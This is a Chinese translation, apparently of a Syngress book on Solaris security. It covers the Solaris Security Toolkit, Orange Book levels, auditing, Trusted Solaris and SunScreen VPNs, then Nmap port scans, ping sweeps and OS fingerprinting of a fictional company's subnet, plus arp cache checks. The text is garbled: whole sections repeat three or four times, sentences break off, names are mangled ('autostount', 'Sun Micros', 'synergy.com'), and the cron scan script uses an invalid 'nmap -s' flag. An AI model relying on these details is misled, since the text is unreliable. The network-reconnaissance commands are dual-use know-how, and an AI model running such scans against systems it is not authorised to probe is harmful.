图 2.5 显示了一个包含本节所讨论的所有元素的网络。虽然不同位置受到运行在 Sun 系统上的隐身模式防火墙的保护免受互联网的攻击，但它们在两个系统之间建立了一个 `SKIP VPN` 隧道，允许在互联网上两个系统之间直接进行高加密流量。主位置的销售、人力资源和 Web 服务器位于主以太网骨干上；贸易机密局域网段受内部路由模式防火墙的保护。每个位置的防火墙都由远程管理。

### 图 2.5 利用 SunScreen 技术的网络配置



www.syngress.com

## 使用 Solaris 安全工具包

Solaris 安全工具包（正式称为 `JASS`）是一组从 Sun 网站免费提供的安全脚本。这些脚本旨在帮助管理员通过创建已经为更高级别安全定制的系统，来更方便地在整个网络中实施统一的安全策略。尽管它们可以在独立模式下运行，但它们的设计初衷是利用 Sun 的 `JumpStart` 技术将配置推广到整个管理架构中。

该工具包设计为以两种模式之一运行。第一种模式是 *加固模式*（hardening mode），仅在独立会话中可用。*加固*是指修改系统配置的术语，关闭可能发生安全违规的节点。*最小化模式*（Minimization mode）是移除代表安全风险的冗余软件包。最小化仅在 `JumpStart` 模式下可用，并作为构建具有提供功能的极精简软件配置客户端的模板。

这些脚本提供给管理员作为辅助工具，帮助在基础层上配置系统安全，并由 Sun 工程师编写的脚本组成。由于脚本是免费提供的，因此 Sun 不对其提供官方支持；如果对系统进行了操作系统环境升级，则需要重新应用脚本，以防它们所替换的文件丢失。这些脚本具有高度的可配置性和活性，可以根据不同环境的需求进行定制。

## 使用 Solaris 安全工具包的系统文件

Solaris 安全工具包将许多系统文件替换为功能已更改的修改。例如，`/etc/issue` 和 `/etc/motd` 文件被更改，以提供活动可能被监控或其他或其他组织可能希望指定的特定法律横幅通知。`/etc/syslog.conf` 文件被修改，以默认提供额外的日志。`/etc/default/ftpd` 和 `/etc/default/telnetd` 文件被添加了显示为 *Authorized Access*（已授权访问）的横幅。如果没有使用下一节描述的 OpenSSH 安全软件，并取决于 X 支持需求，工具包提供了 `/etc/dt/config/Xaccess` 文件来禁用远程访问。

工具包还有一组 Finish 脚本，用于启用或禁用系统功能。例如，Finish 脚本默认禁用了 *autostount* 命令、`dhcp`、`dtlogin` 和 `IPv6`。它们禁用了对以下内容的 IP 访问


`cron` 子系统以及 `NFS` 客户端和服务。Finish 脚本启用了 `BSM`、`FTP` 和 `inet` 栈日志，以及针对常见缓冲区溢出攻击的内核栈保护。


再次，工具包中的所有功能都是可配置的。它被设计为极端的全包含，其运行的许多脚本可能涵盖一切。

## 处理 Solaris 安全工具包的系统文件

Solaris 安全工具包将许多系统文件替换为功能更改的修改版本。例如，`/etc/issue` 和 `/etc/motd` 文件被更改，以提供活动可能被监控或其他组织可能希望指定的特定法律横幅通知。`/etc/syslog.conf` 文件被修改，以默认提供额外的日志。`/etc/default/ftpd` 和 `/etc/default/telnetd` 文件被添加了显示为 *Authorized Access*（已授权访问）的横幅。如果没有使用下一节描述的 OpenSSH 安全软件，并取决于 X 支持需求，工具包提供了 `/etc/dt/config/Xaccess` 文件来禁用远程访问。

工具包还有一组 Finish 脚本，用于启用或禁用系统功能。例如，Finish 脚本默认禁用了 `autostount` 命令、`dhcp`、`dtlogin` 和 `IPv6`。它们禁用了对以下内容的 IP 访问
cron 子系统以及 NFS 客户端和服务。Finish 脚本启用了 BSM、FTP 和 inet 栈日志，以及针对常见缓冲区溢出攻击的内核栈保护。

## 使用 Solaris 安全工具包

Solaris 安全工具包（正式称为 `JASS`）是一组从 Sun 网站免费提供的安全脚本。这些脚本旨在帮助管理员通过创建已经为更高级别安全定制的系统，来更方便地在整个网络中实施统一的安全策略。尽管它们可以在独立模式下运行，但它们的设计初衷是利用 Sun 的 `JumpStart` 技术将配置推广到整个管理架构中。

该工具包设计为以两种模式之一运行。第一种模式是 *加固模式*（`hardening mode`），仅在独立会话中可用。*加固*是指修改系统配置的术语，关闭可能发生安全违规的节点。*最小化模式*（`Minimization mode`）是移除代表安全风险的冗余软件包。最小化仅在 `JumpStart` 模式下可用，并作为构建具有功能的极精简软件配置客户端的模板。

这些脚本提供给管理员作为辅助工具，帮助在基础层上配置系统安全，并由 Sun 工程师编写的脚本组成。由于脚本是免费提供的，因此 Sun 不对其提供官方支持；如果对系统进行了操作系统环境升级，则需要重新应用脚本，以防它们所替换的文件丢失。这些脚本具有高度的可配置性和活性，可以根据不同环境的需求进行定制。

图 2.5 显示了一个包含本节所讨论的所有元素的网络。虽然不同位置受到运行在 Sun 系统上的隐身模式防火墙的保护免受互联网的攻击，但它们在两个系统之间建立了一个 SKIP VPN 隧道，允许在互联网上两个系统之间直接进行高加密流量。主位置的销售、人力资源和 Web 服务器位于主以太网骨干上；贸易机密局域网段受内部路由模式防火墙的保护。每个位置的防火墙都由远程管理。

## 图 2.5 利用 SunScreen 技术的网络配置


www.syngress.com


# 第 2 章 · 使用内置安全工具保护 Solaris

cron 子系统以及 NFS 客户端和服务。`Finish` 脚本启用了 BSM、FTP 和 inet 栈日志，以及针对常见缓冲区溢出攻击的内核栈保护。

再次，工具包中的所有功能都是可配置的。它被设计为极端的全包含，其运行的许多脚本可能涵盖一切。

## 图 2.5 利用 SunScreen 技术的网络配置


www.syngress.com

### 使用 Solaris 安全工具包

Solaris 安全工具包（正式称为 JASS）是一组从 Sun 网站免费提供的安全脚本。这些脚本旨在帮助管理员通过创建已经为更高级别安全定制的系统，来更方便地在整个网络中实施统一的安全策略。尽管它们可以在独立模式下运行，但它们的设计初衷是利用 Sun 的 JumpStart 技术将配置推广到整个管理架构中。

该工具包设计为以两种模式之一运行。第一种模式是*加固模式*（hardening mode），仅在独立会话中可用。*加固*是指修改系统配置的术语，关闭可能发生安全违规的节点。*最小化模式*（Minimization mode）是移除代表安全风险的冗余软件包。最小化仅在 JumpStart 模式下可用，并作为构建具有功能的极精简软件配置客户端的模板。

这些脚本提供给管理员作为辅助工具，帮助在基础层上配置系统安全，并由 Sun 工程师编写的脚本组成。由于脚本是免费提供的，因此 Sun 不对其提供官方支持；如果对系统进行了操作系统环境升级，则需要重新应用脚本，以防它们所替换的文件丢失。这些脚本具有高度的可配置性和活性，可以根据不同环境的需求进行定制。

### 处理 Solaris 安全工具包的系统文件

Solaris 安全工具包将许多系统文件替换为功能已更改的修改版本。例如，`/etc/issue` 和 `/etc/motd` 文件被更改，以提供活动可能被监控或其他组织可能希望指定的特定法律横幅通知。`/etc/syslog.conf` 文件被修改，以默认提供额外的日志。`/etc/default/ftpd` 和 `/etc/default/telnetd` 文件被添加了显示为 *Authorized Access*（已授权访问）的横幅。如果没有使用下一节描述的 OpenSSH 安全软件，并取决于 X 支持需求，工具包提供了 `/etc/dt/config/Xaccess` 文件来禁用远程访问。

工具包还有一组 `Finish` 脚本，用于启用或禁用系统功能。例如，`Finish` 脚本默认禁用了 `autostount` 命令、`dhcp`、`dtlogin` 和 `IPv6`。它们禁用了对以下内容的 IP 访问

cron 子系统以及 NFS 客户端和服务。`Finish` 脚本启用了 BSM、FTP 和 inet 栈日志，以及针对常见缓冲区溢出攻击的内核栈保护。

再次，工具包中的所有功能都是可配置的。它被设计为极端的全包含，其运行的许多脚本可能涵盖一切。

## Chapter 2 Securing Solaris with the ...


### The Orange Book

- The Orange Book is the foundation for computer security as it is modeled today, providing the de facto standard for assessing security levels with classifications such as C1, C2, and B1.
- The file security defined in the Orange Book provides the basic model used in virtually all computer systems today.

尽管橙色书籍（Orange Book）分类级别从最低的 D 级到最高的 A 级，实际上除少数例外外，大多数操作系统环境运行在 C1、C2 或 B1 级。

### 选择 Solaris 8 C2 安全

- 需要 SunSCREEN 基本安全模块才能将 Solaris 8 OE 的默认安装提升到 C2 安全级别。
- 审计必须通过组织化的方法进行配置和管理，才能发挥作用并处于可控。
- 可以通过编辑 `audit_control` 和 `audit_user` 文件并利用 `auditconfig`、`auditreduce` 和 `praudit` 命令对审计进行精细配置和管理。

### 选择 Trusted Solaris 8

- 选择 Trusted Solaris 8 OE 虽然提供了高安全性，但需要投入人力物系统资源来进行管理和维护。
- 基于角色的访问控制 (RBAC) 和强制访问控制 (MAC，也称为*标签标记*)，是 Trusted Solaris 8 OE 提供的全面保护的基石。
- 适当的审计和审计分析是所有安全系统的基石。管理员必须警惕可能发生的入侵。

### Solaris 8 安全增强

- SunScreen SecureNet 提供了一种加密网络流量的有效手段。SunScreen 协议简单密钥管理 (SKIP) 是 SunScreen SecureNet 用于加密网络流量的机制。虚拟专用网络 (VPN) 是 SKIP 的子集，提供在本地域网网跨广域网甚至跨互联网创建高加密点对点连接或隧道的方法。

www.synergy.com

### 使用内置安全工具保护 Solaris · 第 2 章

Solaris 安全工具包（Security Toolkit）是一组旨在帮助创建安全系统的脚本。这些脚本具有高度可配置性，但由于它们是从 Sun 免费下载的，因此不受支持。

OpenSSH 是一个已移植到 Solaris 8 的开源应用程序，可以在该环境中进行编译和链接以运行。它提供了一种处理客户端与服务器之间 X 访问通信的安全手段。它可以与 Solaris 安全工具包配合进行部署，并提供了通常被工具包默认禁用的必要通信组件。

## 常见问题解答

以下常见问题由本书作者回答，旨在衡量你对本章所提概念的理解程度，并帮助你在现实生活中实现这些概念。如需让作者回答你关于本章的问题，请访问 www.synergy.com/solutions 并点击“询问作者”表单。

**Q：如果我已经具备了足够的安全措施，为什么还要设置审计？**

**A：**一个朋友给我讲述了一个符合这种场景的轶闻：一名海军陆战队被士官要求在营地周围布置铁丝网。在与难以处理的铁丝网斗争后，他问士官：“长官，我们为什么要绕营地围上这种铁丝？”士官回答：“这是为了确保敌人无法也无法到达我们的周边界，士兵兵！”士兵显得很困惑，看向铁丝网和营地之间的地雷场，说：“长官，地雷是什么？”士官回答：“那是为了在敌人突破我们的周边界时使用的，士兵兵！”这个故事的寓理是，涉及到安全时，永远不要假设你已经足够了。

**Q：我如何知道何时应该使用 Trusted Solaris 8 而不是 Solaris 8？**

**A：**在特定情况下确定合适的安全级别是困难的。作为计算机专业人士，我们被不仅要完全理解技术，还要考虑数据的敏感性并在预算限制范围内工作。通常，由于安全性的增加总是会有成本，要回答的主要问题是“如果数据被泄露，将会造成多大的损害？”举例如，我问一个修辞性问题：“你认为什么样的安全措施保护了可乐的配方？”

**Q：Trusted Solaris 政府规定的设计对于我的需求来说是否过头了？**

**A：**虽然 Solaris 8 和 Trusted Solaris 8 确实基于美国政府使用的模型，但该结构已经改进到可以适应几乎任何安全状况。该模型最初是全面且严谨的。现在，在 15 年后，它已经演变成更加全面，并增加了灵活性这一优点。

**Q：我还需要什么进一步的培训才能妥善管理我环境的安全？**

**A：**这同样是一个有很多变量的问题。在很多情况下，书中提供的信息对于为你的组织实施健全的安全策略来说绰绰有余了。在其他情况下，可能需要更深入的理解。这里包含的许多主题都有专门的著作介绍——它们的内部原理、所使用的加密方法和算法。涉及到安全时，知识足够就足够了，但越多总是越好。

**Q：什么时候需要 SunScreen SecureNet？**


A：网络可能是安全链中最脆弱的环节。在过去，许多组织信任电信公司为组成广域网的专用链路提供安全保障。现在我们都太天真了。我们理解窃听、拦截和欺骗的概念。我们知道电信公司数据交换交换机的漏洞，以及它们多容易被窃听。现在，随着互联网的出现，控制公司内部的数据流变得更加困难。然而，可以控制的是数据传输的方式。SunScreen SecureNet 等加密技术确保了当你进入网络的易受区域时，它仍然受到保护。


## 使用内置安全工具保护 Solaris · 第 2 章

Q：如果我已经有了足够的安全措施，是否应该一直使用 OpenSSH？

A：事实上，Solaris 安全工具包默认完全禁用了传统的 UNIX 连接，如远程 shell。（它可以与工具包配合进行部署并提供了通常被工具包默认禁用的必要通信组件。）

## 第 3 章 使用免费工具保护 Solaris

## 使用免费工具保护 Solaris

本章解决方案：

- 使用端口扫描检测漏洞
- 使用 IP 扫描发现未经的系统
- 使用网络监控检测异常流量
- 使用 使用 sudo
- 总结
- 常见问题解答

## 引言

Solaris 作为 UNIX 变体的一个优点是，最初为其他平台开发的软件很容易被移植和配置。正因如此，存在大量的免费软件。缺点是，任何人都可以获得这些软件，并且可能被黑客利用。

当你开始探索和使用这些免费工具时，应该注意几点。最重要的是，这些工具是开源的，通常仅以源代码形式发布。这意味着你需要适当的编译器、库和其他工具来将软件转换为机器可运行的格式。由于任何人都可以下载这些软件，并且许多实体都会对其进行

我们将首先通过研究一种流行的端口扫描工具，它可以轻松地发现漏洞并确定哪些系统连接到子网。我们将查看一种常见的且维护良好的入侵检测系统，它可以用于监控异常流量。我们将查看一个允许管理员根据情况和用户授予超级用户权限的工具。

必须记住，这些在 UNIX 社区中良好支持工具并不是网络、系统和用户安全的终极解决方案。是否有更好的工具？在比较免费和付钱的东西时，判断哪个更好是困难的。商业工具由于其价格，通常提供更优越的支持和维护资源，通过电话、互联网甚至现场工程师提供服务。你通常无法从开源工具中获得任何此类服务。对于商业软件，客户通常会收到新版本或补丁发布的通知，而对于免费软件，管理员必须投入部分时间来验证最新的发布版本。

最终，你的组织结构、你的上级和预算分配将决定你走哪条路。在某些情况下，你可能拥有免费和商业产品的混合环境。我发现，这种混合在异构环境中效果最好。

## 保护 Solaris 免费安全工具 • 第3 章

在各种 Web 和 FTP 站点都有这些工具的镜像副本，你在购物时应该格外小心。几年前，一个恶意黑客获取了一个名为 SATAN 的工具源码。该黑客在包的源文件中插入了一些代码，创建了后门和漏洞。任何下载、编译并使用该版本的良心管理员，都会导致其系统面临受到攻击的风险。最佳实践是从以下来源之一获取软件，优选顺序如下：

- 作者的 Web 或 FTP 站点
- 作者批准的镜像（这些通常列在主站的“mirrors”列表下）
- 内部镜像（如果你的组织足够大以支持此类镜像）
- 安全厂商页面或 FTP 站点
- www.sunfreeware.com

这些地方都应该有干净、经过验证的工具分发包和源代码。你还会在上述网站上找到 tarball 包的各种校验和。一旦下载了 tarball，请运行校验工具、MD5或其他哈希程序（按照作者/站点维护者的指示进行），并确保它们匹配匹配。如果不匹配，在验证其真实性之前请不要使用该代码。此外，请记住，有些组织依赖免费软件。虽然这是一个原则和优先顺序的问题，但你应该始终向上级确认开发和生产网络是否欢迎免费软件安全工具。获得使用这些工具的许可（尤其是书面许可）是无价的，可以防止坏事的发生。至少，你希望让上级意识到你将使用的工具、它们的用途以及它们可能带来的危险。

虽然软件是免费的，但它并非没有成本的。首先，你将无法获得正式的支持和故障排除资源。在作者修复漏洞之前，你必须独自处理出现的任何 Bug。各种因素以及前面提到的真实性问题是使用这些工具最大的缺点。优点包括能够操作这些工具的源代码，以绕过各种定制或其他仅存在于你环境中的特殊情况。这些更改可能受到作者的欢迎，并最终成为分发包的一部分。检查程序代码的能力将帮助你更深入地理解什么是

img/ab996f014aa8c5c7de3d77cc73ef5ce3_93_0.png

## 第3 章 • 使用免费工具保护 Solaris

在机器层面，以便对系统进行适当测试、审计和保护。最后，软件将使能够利用黑客的工具和战术来保护你的系统。你将通过他们的视角来看问题，并短暂进入他们的思维，毫无疑问，这将让你成为一名更优秀的安全专业人员。

## 地下的笔记……了解你的敌人

研究安全性能为你提供了一个独特的视角，让你了解系统的状态以及将系统提升到标准水平所需的工作量。调查还将你在主流媒体发布之前的几天甚至几个月，发现有关最新漏洞和零日的信息。许多白帽黑客积极黑入自己的系统，以发现尚未未知的安全风险和漏洞。通过网站和仓库，人们可以轻松对地平线之外的新漏洞有良好的感知。我强烈建议你利用 Web 和其他资源（包括同行和专业联系人），并关注最新的漏洞。参与安全和系统保护技巧的专业邮件列表，并通常保持开放的心态。许多管理员认为对系统进行一次安全就够了。事实绝非如此。如果你不这样做，自满情绪就会产生，最终会有人获取你系统的 root 权限。准备好不断研究正、邪双方的最新活动，以保持领先于一步。记住：安全是持续进行的工作！

## 保护 Solaris 免费安全工具 • 第3 章

### 检测漏洞 端口扫描

典型的 Solaris 安装带有几个活动端口。也许在最近，这些端口中最臭名昭著的两个是基于 RPC 的端口：用于默认管理守护进程 sacmind 的端口，以及用于 RPC 服务的 portmapper（rpcbind)。Solaris 上默认还开启了一些相对无害的端口，如 telnet、finger、r-command 端口以及通过 portmapper 获取的许多其他基于 RPC 的服务（如 rpc.spray、rpc.wald 等）。telnet 端口可能会禁用，特别是如果你安装了安全外壳（SSH）服务器时。SSH 通过加密数据，为远程系统提供了一种更安全的伪终端访问手段。Telnet 本身是最脆弱的，因为所有传输的数据都是明文发送的。密码和其他关键信息可能很容易从网络层会话中被窃获。FTP 协议代表了一种漏洞，主要源于缓冲区溢出或配置错误。如果不需要该服务，只需禁用它。如果你安装了 SSH，没有理由保持 r-command 服务运行。由于这些命令依赖于最小的主机或用户验证，且不提供加密，你最好从一开始就将它们删除。finger 服务对合法和非法的目的都有用，这项活动服务取决于判断。通常情况下，在配置妥当的防火墙网络上，我会保留 finger ，因为它往往非常有用，且实际的可利用漏洞早已被修复。

基于 RPC 的服务也是一个风险点。如果你需要这些提供的服务（日历、tooltalk、NFS 等），你需要检查你的配置和设置，并确保服务以最高安全级别配置。如果你不需要它们，只需在 `/etc/inetd.conf` 中注释掉它们，或在系统的运行控制脚本中阻止它们启动。

要查看外部世界可以使用哪些端口（因此是哪些服务），你应该获取端口扫描器 `Nmap` 的副本，`Nmap` 代表 Network Mapper。该软件在很多地方都很容易获得，通常有两种形式：可以在 www.insecure.com 找到仅源码的副本，从 www.sunfreeware.com 获取预编译的 Solaris 二进制文件。让我们简单浏览一下 `Nmap`。

img/ab996f014aa8c5c7de3d77cc73ef5ce3_95_0.png

## 破坏与防御……这些东西是从哪里来的？

本章所涵盖的工具之一是 Martin Roesch 编写的 `Snort`。Roesch 是一个深层意义上的安全专业人员，任职于 Hiverworld，它是商业化网络分布式入侵检测系统的制造商。他在运行 www.snort.org 的 Snort 主页方面也发挥了巨大作用。鉴于讨论组、下载、链接和丰富的站点信息资源，他的网站应该是你获取 Snort 以及学习更多 Solaris 安全知识的首选站点之一。

另一个优秀站点是位于 www.sunfreeware.com 的 SunFreeware 站点，由 Steven M. Christensen 运行。Christensen 参与了许多项目，但可以说，SunFreeware 对目前 Solaris 管理员和用户的影响最大。就在现在，Sun Micros 终于推出了一个面向管理员的站点 BigAdmin（www.sun.com/bigadmin）。虽然该站点已存在两年，但直到最近七八个月，对管理员来说并不是很好的资源。有趣的是，Sun 将 Big Admin 链接到了 SunFreeware 站点。


Christensen 的站点针对大多数当前 Solaris 版本（从 2.5 到 8）的日志软件，以及针对 Sparc 和 Intel 平台版本方面享有誉。SunFreeware 拥有大量适用于 Solaris 标准包格式和 Web Start 格式的预编译应用程序。还包含了这些软件的源代码，以防编译时的默认值不是你想要的。我在 SunFreeware 中发现最有用的部分是关于为预二进制文件制作自定义包的信息。Solaris 包是分发软件的一种极方法，但对许多管理员来说是个谜。Christensen 优秀的教程，加上几个 SunFreeware 客户提供的后续细节，是学习如何制作、验证和分发包的良好起点。另一个值得提及的站点是 `www.securityfocus.com` SecurityFocus。它更是一个软件分发站点的门户，SecurityFocus 包含了一些优秀的 Sun 安全软件和一些

# 使用免费安全工具加固 Solaris 安全 • 第 3 章

一个无可击的漏洞和利用数据库（包括修复和规避方案的信息），涉及许多种操作系统，包括 Solaris。该网站还托管了各种邮件列表，其中一些是针对 Solaris 的。Solaris 邮件列表通常会有非常优秀、专业级的讨论，这对于新手和经验丰富的管理员来说都将是极具价值的。

## Nmap 基础用法

Nmap 拥有大量的命令行选项来修改和引导其行为。我们将只关注其中的少数几个。运行 Nmap 最通用的方法是给它一个主机名或 IP 地址作为参数：

```
nmap [-options] <hostname>
```

你可以采取更通用一点的方法，让它执行其名称所暗示的功能，通过提供一个 CIDR 格式的网络地址来扫描整个网络：

```
nmap A.B.C.D/xx
```

在本章中，我们将重点关注以下选项和开关：

- `-sT` 启动 TCP `connect()` 扫描（在未提供其他选项时为默认值）。
- `-sU` 启动 UDP 端口扫描。此扫描需要你以 root 身份运行 Nmap。
- `-sP` 启动 ping 扫描。尝试 ping 指定的给定子网或范围内的主机。
- `-oN<logfile>` 告诉 Nmap 将其结果输出到名为 `<logfile>` 的、人类可读的 ASCII 文本文件中。
- `-O` 启动 TCP/IP 指纹识别。Nmap 尝试通过使用指纹文件（已包含）来检查并比较各种 TCP/IP 属性，从而确定目标机的远程操作系统。这需要 Nmap 以 root 身份运行。

虽然这是我们将关注的，但请记住查阅 Nmap 的文档和内置帮助。Nmap 拥有强大的功能，花一点时间学习它将会有丰厚的回报。

以我们虚构的 `la` 为例，假设你想查看 `www.incoming-traveller.com` 上哪些端口是开放的。一旦你在管理系统上安装了 Nmap 并正确配置了软件，请执行以下命令：

```
%nmap -sT www.incoming-traveller.com
```


# 第 3 章 · 使用免费安全工具加固 Solaris

端口扫描本身可能需要 10 秒到 3 或 4 分钟，取决于扫描器发现并需要报告的端口数量。Nmap 扫描后的正常输出看起来类似于图 3.1。

## 3.1 Nmap 扫描后的正常输出



前三个条目是显而易见的。端口 111 的条目表示该系统上运行着 `portbind` 进程，并且其他 RPC 服务也在运行。你使用 `rpcinfo` 命令收集有关这些服务的更多信息。端口 4045 和 6000 上的服务显示系统上运行着 X 会话（OpenWindows, CDE, KDE 等）。最后两个条目是开放 X 会话的产物，并可能存在漏洞，因为窗口系统可能有绑定到这些端口的存漏洞的子进程。

你可能会注意到没有 UDP 端口出现。这是因为 Nmap 需要 root 权限来进行更密集、更隐蔽的端口扫描。这在很大程度上防止了它被本地用户滥用。为了进行 UDP 扫描，切换到 root 权限执行：

```
%nmap -sU www.incoming-traveller.com
```

你将得到类似于图 3.2 的结果。这种类型的端口扫描通常需要 Nmap 花费更长时间才能完成。如你所见，`www.incoming-traveller.com` 不仅是一个 Web 服务器，还是一个 NFS 服务器（端口 2049）、syslog 服务器（端口 514）、名称服务器（端口 53）以及 X 服务器等。

这些服务中的每一个都代表一个漏洞，它可能是重大的，也可能是次要的。在过去的 24 个月中，出现了了许多 DNS/BIND 漏洞。该系统应该至少运行 BIND 8.2.3-REL，否则它可能会被几个漏洞中的一个攻破。syslog 条目是一个轻微的威胁，尽管它可能被利用来损坏或覆盖日志文件。在最坏的情况下，向 syslog 发送持续的消息可能被用来填满 syslog 文件所在的分区。这可能导致系统崩溃或不稳定。在 Solaris 系统上安装惠尔士-Packard Jetdirect/Jetadamin 软件时，经常发现 BOOTP 条目。除非 `.incoming-traveler.com` 为网络打印机提供 BOOTP 服务，否则你可以安全禁用该服务。

## 图 3.2 UDP 扫描结果



`snmp` 和 `rpc` 服务在程序上通常互不相关，但它们值得额外关注。从某种意义上说，如果你的系统也是 NFS 服务器，那么它自然应该位于防火墙之后，并且 NFS 共享应该带有相应的权限和访问限制进行导出。诚然，这并没有完全解决 RPC `portmapper` 后面的其他服务。为了了解还有哪些服务，你需要查看 `/etc/inetd.conf` 和 `/etc/rc[1-3].d`，查看哪些 RPC 服务是在启动时启动的，哪些是需要启动的。确定你的系统提供哪些 RPC 服务的命令是 `rpcinfo`。你几乎可以将其用作 RPC 端口扫描器（尽管它不是），来查看哪些服务是已启动且可用的。

NFS 对时间戳敏感，因此系统时钟应与通用源同步。这就是 NTP 发挥用场的地方。NTP 将在将在少干预的情况下同步系统时钟，为你的网络化系统提供统一的时间戳。配置适当的 NTP 设置对你的系统威胁是极微的。

最后，需要注意的是，并不是所有服务都是根据 `/etc/inetd.conf` 启动的。大多数默认服务都是如此，但也有例外。

# 第 3 章 · 使用免费安全工具保护 Solaris

网络上的系统。假设 Incoming Traveller, Inc. 使用子网划分的 10.0.0.0 IP 空间，即 `10.1.1.0/24`。以 root 身份带有以下开关运行 `nmap`：

```
%nmap -sP 10.1.1.0/24
```

当 `nmap` 完成时（根据发现的系统数量，可能几分钟到几小时不等），你应该得到与图 3.3 类似的输出。

## 图 3.3 Nmap 对网络上 IP 和操作系统的清单结果



接下来，使用 `-O` 选项运行 `nmap`（使用 root！）对网络上的主机进行指纹识别：

```
%nmap -O 10.1.1.0/24 >> /ip_and_fingerprints.out
```

当 `nmap` 完成后，你的文件将追加以下内容：

Starting nmap V. 2.53 by fyodor@insecure.org (www.insecure.org/nmap/)

Interesting ports on www.incoming-traveller.com (10.1.1.1:33):

(The 1517 ports scanned but not shown below are in state: closed)

| 端口 | State | 服务 |
| :--- | :--- | :--- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 111/tcp | open | sunrpc |
| 4045/tcp | open | locked |
| 6000/tcp | open | X11 |
| 32771/tcp | open | sometimes-rpc55 |
| 32780/tcp | open | sometimes-rpc23 |

TCP Sequence Prediction: Class=truly random

Difficulty=99999999 (Good luck!)

Remote operating system guess: Solaris 2.6 - 2.7 with tcp_strong_iss=2


在这种情况下，`Nmap` 已经猜测我们的 Web 服务器运行着 `Solaris 2.6` 或 `2.7`，它向我们展示了开放端口（宁多勿勿少），并告诉了我们关于 `TCP` 序列的某些信息。为了自动收集所有这些数据，我们再次编写一个小脚本，并以 `root` 身份通过 `cron` 运行：

```bash
#!/bin/sh
LOG=/tmp/ip_and_fingerprints.out

/path/to/nmap -s 10.1.1.0/24 -oN $LOG
/path/to/nmap -O 10.1.1.0/24 >> $LOG

cat $LOG | mailx -s "nmap output" scarter@incoming-traveller.com
```

你可能已经注意到，这两个脚本都没有将错误重定向到 `/dev/null`（大多数系统都是这样做的）。相反，任何重定向到标准错误（以及标准输出的情况下）的内容都将被 `cron` 启动的 `shell` 捕获，并发送给调用用户（在本例中为 `root`）电子邮件。由于这些是免费公共产品，当你升级操作系统或免费产品版本时，可能会偶尔出现漏洞和错误。这样，你就可以看到软件是否开始运行异常并补救情况，而不是坐在黑暗中认为一切无事，而事实并非如此！

## 在 Solaris 上使用 arp 命令

假设你运行了 `Nmap` 扫描，读取输出并注意到一个系统位于 `IP 10.1.1.90`。参考你的记录，你意识到这个 `IP` 并不在我们的动态主机配置协议（`DHCP`）范围内，也没有被分配给任何系统。`Nmap` 报告了一些正常的开放端口，并将其指纹识别为 `Solaris 8` 系统。下一步怎么办？一个地方是查看 `arp` 缓存。这是一个将以太网硬件（`MAC`）地址转换为 `IP` 地址的表。从本质上说，`arp` 是 `OSI` 第 2 层和第 3 层之间的胶水。要查看 `arp` 缓存，执行以下命令之一：


```bash
%arp -a

或者
netstat -p
```

这些命令将提供相同的信息，类似于：

Net to Media Table: IPv4

| 设备 | IP 地址 | 掩码 | 标志 | 物理地址 |
| :--- | :--- | :--- | :--- | :--- |
| hme0 | 10.1.1.11 | 255.255.255.255 | | 08:00:20:73:51:02 |
| hme0 | 10.1.1.30 | 255.255.255.255 | SP | 08:00:20:9f:1c:c6 |
| hme0 | 10.1.1.33 | 255.255.255.255 | | 08:00:20:a8:99:14 |
| hme0 | BASE-ADDRESS.MCAST | 240.0.0.0 | SM | 01:05:00:00:00 |

首先，让我们仔细观察物理地址列。你会发现这三个地址都以 `08:00:20` 开头。这很重要，因为高位字节（前六位）是由 `IEEE` 分配的组织唯一标识符（`OUI`）或厂商地址。这些三个字节的所属厂商列表可以在 `www.iana.org/assignments/ethernet-numbers` 找到。`08:00:20` 分配给了 `Sun Micros`。由于在 `Sun` 设备上更改 `MAC` 地址很困难（尽管不可能），可以断定入侵者确实是 `Sun Micros` 设备。在这里，情况可能会变得复杂。使用 `nmap` 进行扫描时，当 `nmap` 想要连接主机时，它需要获取给定的 `IP` 地址并通过 `TCP/IP` 栈发送数据包。当数据包到达以太网设备时，必须构建一个以太网帧，在该帧中必须确定硬件地址。如果信息在我们的 `arp` 缓存中，则无需进行查找。如果信息不在 `arp` 表中，发送主机将向以太网广播地址（`FF:FF:FF:FF:FF:FF`）发送广播，“谁是 `10.1.1.11`？”在本地网络上，如果没有路由器或 `VLAN` 过滤，`10.1.1.11` 将返回类似 `08:00:20:73:51:02` 的响应。网络栈将接收此信息，由内核构建以太网帧并将其发送出去。这很好，但完全可能是网络上正在发生某些恶意活动（其他未知系统）。


